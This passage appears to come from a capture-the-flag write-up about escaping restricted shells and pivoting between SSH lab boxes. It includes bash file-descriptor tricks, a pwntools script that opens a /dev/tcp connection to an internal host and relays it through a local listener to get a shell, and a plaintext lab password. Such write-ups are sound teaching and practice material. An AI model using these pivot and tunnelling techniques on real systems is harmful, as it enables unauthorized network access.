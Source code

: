 Next trick is to turn _level 2 shell stdin_ (fd 0) (data from attacker's SSH client) to be redirected to fd 3 (connection to box 3 SSH server), by: `cat > &3`, this operation is blocking but that doesn't matter as the other (backgrounded) process will still write data to stdout (fd 1) 

PoC:
```bash
cat <&3 &
cat >&3
```

### Solution for level 3

**Note**: For this to work, you need to configure your local SSH client to enable connection multiplexing ("ControlMaster") and have the level 2 script running in the background and an active connection to box 2.

```python
from pwn import *

p = process(['ssh', 'ctf@localhost', '-p2222'])
p.recvline() # Pseudo-terminal will not ...

### DNS because I didnt know /dev/tcp/.../port would look up domains... ###
#from scapy.all import DNS, DNSQR, IP, UDP
#p.send("exec 666<>/dev/udp/127.0.0.11/53\n".encode())
#dns_req = DNS(rd=1337, qd=DNSQR(qname='third'))
#p.send(b"cat <&666 &\n")
#p.send(b"cat >&666\n")
#p.send(dns_req.build())
#print(DNS(p.recv()))

p.send(b"exec 3<>/dev/tcp/third/22\n")
p.send(b"cat <&3 &\n")
p.send(b"cat >&3\n")
l = listen(2223)
print("ssh ctf@localhost -p2223  # pw: x5kdkwjr8exi2bf70y8g80bggd2nuepf")
svr = l.wait_for_connection()
svr.connect_both(p)
```

We can now `ssh ctf@localhost -p2223` to get a SSH shell on box 3.

```
$ ls
bin  etc  flag3  lib  lib64
$ cat flag3
bash: cat: command not found
```

## Level 4

First they took our `busybox`, but I had `cat`, then they took my `cat` 🙀

We can use bash to open a file and pipe file content to stdin by doing `... < flag3`, then we can use bash buildin `read` to read from stdin into a variable (`$line`) and then use bash buildin `echo` to write the variable to stdout (fd 1):
